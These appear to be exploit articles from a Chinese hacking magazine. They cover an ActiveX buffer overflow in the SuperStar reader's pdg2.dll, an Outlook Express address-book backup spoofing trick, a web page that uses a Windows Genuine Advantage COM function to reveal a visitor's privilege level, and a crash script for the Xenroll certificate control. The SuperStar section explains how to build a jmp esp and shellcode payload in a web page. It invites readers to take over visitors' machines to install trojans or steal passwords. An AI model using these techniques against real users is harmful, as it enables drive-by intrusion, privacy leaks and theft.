也许大家看过我在 2007 年第 4 期黑防上发表的超星浏览器的一个溢出漏洞，那个漏洞虽然足够致命，但是触发起来较为困难。因为第一是必须使用超星浏览器打开我们带有 Exploit 的网页才行；第二是必须由用户点击了那个超长的超链接后，再点击“前进”按钮或者复制那个超长的网址地址到超星的地址栏里访问，才能触发利用。条件很是苛刻，对于广大菜鸟同志们利用起来很不趁手。于是我在前次研究超星代码的基础上，本次带来了一个让大家绝对满意的漏洞。这个漏洞利用起来不再那么苛刻，凡是安装了超星浏览器的人，只要使用任意网页浏览器，例如 IE、Maxthon、TT 等，访问了我们的这个网页后都会导致主机被控制，安装木马还是窃密码那就是你的事情了。说了这么多，你一定等急了，还是让我们快点进入主题吧。

超星浏览器安装后，程序负责解码 pdg 文件的库文件是 pdg2.dll 文件，这个文件在安装超星的时候被程序自动注册进注册表。这个时候 pdg2.dll 就已经成为一个可以被其他程序调用的 ActiveX 组件了，我们就可以编写属于我们自己的 pdg 文件浏览器了。起初的时候，我只是从超星浏览器主程序的代码分析了超星浏览器的漏洞。当再次操起 Dasm32 反汇编超星的时候，我把目标指向了这个解码文件 pdg2.dll，它是使用 VC6 编写的，如图1所示。没有加壳，真是太方便调试了。



图1

我们知道，作为一个 ActiveX 组件，一般会提供给我们一些接口和方法，正如同 WScript 组件一样，我们可以利用组件的方法来执行命令。超星浏览器的 pdg2 组件为我们提供了可以读取 pdg 文件的接口，你可以利用 VC 或者别的编程语言来调用，甚至可以更简单地在网页里用 Script 脚本语句来调用。

给我们的 WScript 组件就是我们经常在网页里调用的，那么如何调用呢？如果你经常使用 WebShell，我们不难发现，在这些脚本木马里常常会使用 CreateObject 这个函数或者 CLSID 这样的语句来调用系统提供给我们的组件。这里我也是通过这个方法来对超星 pdg2 组件实现调用的。在调用过程中，超星提供给我们一个名为 LoadPage 的函数，这个函数是用来加载 pdg 文件的，函数原型如下。

```cpp
HRESULT LoadPage(BSTR URL, long x, long y, single Zoom);
```

它有四个参数，第一个参数是一个字符串类型，第二、第三个是 long 型参数，最后一个是 single 型的参数。我这里解释一下这几个参数的意义：第一个参数当然就是我们要加载的 pdg 文件的路径，可以是类似网站地址形式的字符串，如 http://localhost/first.pdg，也可以是本地路径型的参数，如 c:\first.pdg。第二、第三个参数就是控制加载文件后的坐标，你可以认为是超星将前面的 pdg 文件读取进来后，显示当前页的位置，在这里这两个参数不是很重要。最后一个参数是控制对文件缩小放大的比例，在这里也不是很重要。

现在，我们回过头来看第一个参数。还记得我说了什么吗？这个参数可以是一个本地路径形式的参数。本地路径意味着什么？如果一切正常，本地路径最多也就是 256 个字节；如果不正常，而是超过 256 个字节呢？对于 VC 编程员来说，最喜欢在一些读取文件的地方使用一个宏定义 maxlength，而 maxlength 这个参数的值常常又被默认为就是 104h 大小，也就是 260 个字节。这超过了 Windows 下文件路径的 256 个字节限制。如果不妥善处理传递文件路径参数的长度，最直接的后果就是溢出，或者程序异常。我在逆向超星的时候，发现这样的马虎处理很多。正如我曾说的，超星有很多“洞洞”。希望“读天下”工作室能尽早为超星打上补丁，让超星更加完美，让我们能用得放心。好像有点偏题了，还是回到我们的分析上来。现在，想必聪明的你也知道如何触发这个漏洞了，心动不如行动，那就赶紧写段代码测试一下。你可以用我提供的“超星0Day”这个程序生成一个 html 文件，或者直接写入如下代码。



保存这段代码为 `test.html`，用浏览器打开，会得到如图2所示的结果。IE 出错了，出现了典型的溢出报错特征，这正好说明上面的分析是正确的。为了更好地观察漏洞发生时的情况，文中接上 OllyDBG 查看内存与寄存器状态，如图3所示。





寄存器正好指向过长参数。接下来利用传统的 `jmp esp` 方式，修改传给 `LoadPage` 的第一个参数，使字符串构造成“256 个 a + jmpesp 地址 + ShellCode”的形式，并在 ShellCode 起始位置前放置一些 nop（空语句），提高跳转成功率。



最后给出编译好的利用程序。若不满意文中 ShellCode，可编辑生成的 `poc.htm`：在偏移 315 字节处先放入四字节 `jmpesp` 指令地址，再放入自己的 ShellCode，保存后即可测试。文末说明该漏洞危害较大，若被用于网页木马将造成严重后果，并给出测试环境与版本信息（超星浏览器 3.91/4.0）。

#### 来自 Outlook Express 通讯簿的欺骗

适合读者：入侵爱好者  
前置知识：无

Outlook Express 这款邮件客户端在许多企业中仍被广泛使用。尽管很多系统转向 B/S 模式，但传统 C/S 模式的 Outlook Express 在内网环境里仍有应用空间。文章指出其通讯簿存在一类容易被忽视的安全隐患，可能导致用户被软件本身“欺骗”。

该隐患与 Outlook Express 的通讯簿处理机制有关，利用门槛不高，可能在实际业务环境中造成误导性安全问题，值得管理员与安全研究者关注。

## 首发漏洞周刊 / FIRST EXPLOIT

栏目编辑 / wt / wt@hacker.com.cn

发现问题的时候，我的朋友需要我 Outlook Express 上的所有联系人的信息。我一想那么多的联系人信息就头大，于是打开 Outlook Express 找找有没有关于联系人信息管理的选项，发现 Outlook Express 自带一个叫做“通讯簿”的邮件联系人管理软件，如图1所示。



图1

这个名叫通讯簿的软件其实就是安装在 Outlook Express 目录下的一个 wab.exe 程序，利用它的“导出”功能就能方便地将我的联系人的信息导出为以 wab 结尾的文件。将这个文件交给朋友，他同样使用通讯簿程序，将这个 wab 文件导入即可，非常方便。并且直接双击导出的 wab 文件也能获得联系人的信息。于是，我导出了我的联系人信息保存为“MY.WAB”文件，在拷贝给朋友之前我先双击打开看了看。在确定没错的情况下，我关闭了通讯簿程序，这时候我发现在 MY.WAB 文件的目录下产生了一个名叫“MY.WAB~”的文件，如图2所示。



图2

我本来猜想这个名叫“MY.WAB~”的文件一定是程序产生的临时文件，可是当我用 UltraEdit32 打开后，竟发现两个文件除了少量的差别外大体上是一样的。那么这个文件很可能就是程序备份的文件了。我猜想微软在做这个通讯簿程序的时候，为了防止用户的信息文件被无意破坏，就使用了这样的自动备份方式来保护信息的可用性。为了证明我的想法，我用 UltraEdit32 破坏了原始文件“MY.WAB”，再次双击打开程序，出现了如图3所示的提示。



图3

在点击了确定以后，程序提示成功从备份数据中恢复了“MY.WAB”；而当我把“MY.WAB~”从当前目录下删除时，程序出现了无法恢复数据的提示。看来我猜对了，名叫“MY.WAB~”的文件确实是一个备份数据，这样是保证了数据的可用性。可是对于通讯簿这样的数据，不仅仅是要保证可用性，还要保证完整性、真实性。如果名叫“MY.WAB~”的备份文件被恶意修改了，是不是程序在恢复时会自动发现，或者程序根本不判断就直接恢复数据，而不管数据的完整性、真实性呢？带着疑问，我们来测试一下。

首先，重建一个联系人在通讯簿里，如图4所示。导出这个联系人的信息，名叫“YS.WAB”，然后删除这个联系人，再新建一个联系人，还是名叫“爱无言”，但是邮件地址是另外一个人的地址，假设为 otherbodyemail@111.com，同样导出这个信息为“TEST.WAB”。现在我们直接双击“YS.WAB”，通讯簿正常地显示了爱无言的联系信息，如同上图一样，并且当前目录下也出现了名叫“YS.WAB~”的备份文件。删除“YS.WAB”，接着我们将“TEST.WAB”修改为“YS.WAB”，然后假设某种情况导致了原始的“YS.WAB”文件损坏。我们这里就直接用 UltraEdit32 打开“YS.WAB”，在里面随便写些数据来模拟数据损坏，保存后退出。现在再次双击打开本来是原始文件的“YS.WAB”，程序自动提示数据损坏，准备从备份数据中恢复。点击确定后，结果如图5所示。程序是恢复了数据，可是注意看，联系人的邮件地址竟然成了 otherbodyemail@111.com，而原来是 hacklover@xxx.com！我们被骗了，数据的真实性被破坏了。


图4



图5

如果这个时候往这个邮箱地址发送的是一些敏感数据，那么就很可能被其他人给截获，导致信息泄漏。

也许微软是好意，既然做了一个备份，那么就该将安全的三要素考虑进去，尤其对于私人数据，真实性是一个很重要的方面；如果有人利用这个缺陷，很容易欺骗用户。测试中还发现，如果把备份文件隐藏了，再破坏原始文件，系统依旧会利用隐藏的备份文件来恢复数据，这样欺骗的隐蔽性更强了。如果你是做这种与私人数据打交道的程序员，那么请你引以为戒。建议把备份数据放入深层次目录，同时加入 Hash 检查，如 MD5，以确保数据的真实性、完整性，从而把软件真正做得更加周到、又安全。

## Windows Genuine Advantage Validation Tool

## 用户信息泄漏漏洞

文／图 由裘文

按照微软的要求，我们只要使用微软系统都得要正版的，于是微软就推出来了一个检测正版用户的东西，美其名曰 Windows Genuine Advantage Validation Tool。只要有这东西存在，就是没完没了地检测说你是盗版用户，无法正常升级，不能打补丁，让你一堆漏洞，装杀毒软件也中毒……

可是，微软既然要做这样的正版检测，就应该做得安全点。当我把这个检测正版的可恶文件扔进我的安全检测软件时，发现其中一个 COM 函数竟然泄漏了我的当前登录用户权限……

这个可恶的文件是在系统目录下的，名叫“LegitCheckControl.DLL”。这个库文件有许多导出的 COM 函数，其中一个直接命名为“IsAdministrator”……

```html
<SCRIPT language="javascript">
function test(){
  if (evil.IsAdministrator()==1){
    alert('你现在是以管理员权限登录的');
  } else {
    alert('sorry你现在不是以管理员权限登录的');
  }
}
</script>
<object classid="clsid:17492023-C23A-453E-A040-C7C580BBF700" name="evil"></object>
<script>javascript:test();</script>
```

得到其接口后，写出了如下的利用程序代码。代码非常简单，将其保存成 HTM 文件，上传到你的网站上……





看到了吗？对比两张图，当我们以管理员登录访问这个测试网页的时候，报出的是我们是管理员权限；而 Guest 登录时，则出现 sorry 的字样。可见这个函数确确实实被我们远程利用了，用户的权限信息泄漏了……

其实，写到这里，我联想起以前在黑防上发表的文章，那些关于函数导致被远程溢出利用的、远程破坏系统的、破坏 IE 的……当你今天为了某种功能安装软件的时候，你的机器就又多了一份被恶意攻击的威胁。攻和防从来都是存在的，对立统一地看待它们，也就成为了我们的一种追求。

适合读者：入侵爱好者

前置知识：无

## IE数字证书控件拒绝服务漏洞

文/图 由慧文

微软的IE浏览器是大家常用的一款浏览器。在微软系统默认安装情况下，IE浏览器还安装了很多控件……在默认随浏览器启动的控件文件中，管理数字证书的控件 Xenroll 是关键控件之一……

这个数字证书控件默认的控件函数里面，有一个叫做“setPendingRequestInfo”的函数。这个函数根据字面意思是设置挂起请求信息，这个函数的原型如下。

```cpp
void setPendingRequestInfo(long iRequestID, BSTR strCADNS, BSTR strCAName, BSTR strFriendlyName);
```

可以看出来，函数是根据对请求的固定标识 IRequestID 进行操作的，其中 strCADNS 就是对远程数字证书服务器解析的 DNS 名，strCAName 就是数字证书名……当我们直接调用 setPendingRequestInfo 函数不给它请求标识时，会导致使用空指针，从而出现读取地址错误。

为了证实这个想法，我写了一段脚本来检测这个函数，脚本的内容如下。

```html
<script language="javascript">
try {
  var tar = new ActiveXObject("CEnroll.CEnroll.2");
  var a = "1";
  tar.setPendingRequestInfo(0x05050505, a, a, a);
} catch(e) {}
</script>
```

测试脚本不长，主要是直接调用函数 setPendingRequestInfo。现在我们把它用 IE 打开，IE 出错了，虽然是出错，但我们现在只是看到一个内存读取错误……



图1



图2

我们在打开这个测试网页的时候，IE 出错的地址在 crypt32 空间……当程序执行到这里，由于 eax+10 等于 0x00000010，这个地址对于程序是一个非法读取地址，程序到这里就出错了……

总体来说，这个漏洞很简单，但是危害却还是不小的。它涉及了数字证书这种敏感的东西，如果你想使用网银或者加密系统交换你的信息的时候……



---

适合读者：入侵爱好者，溢出爱好者

前置知识：缓冲区溢出基本原理

## 下载、执行、挂马任我所为
### ——暴风影音II ActiveX栈溢出0Day

文／图 张东辉 袁野

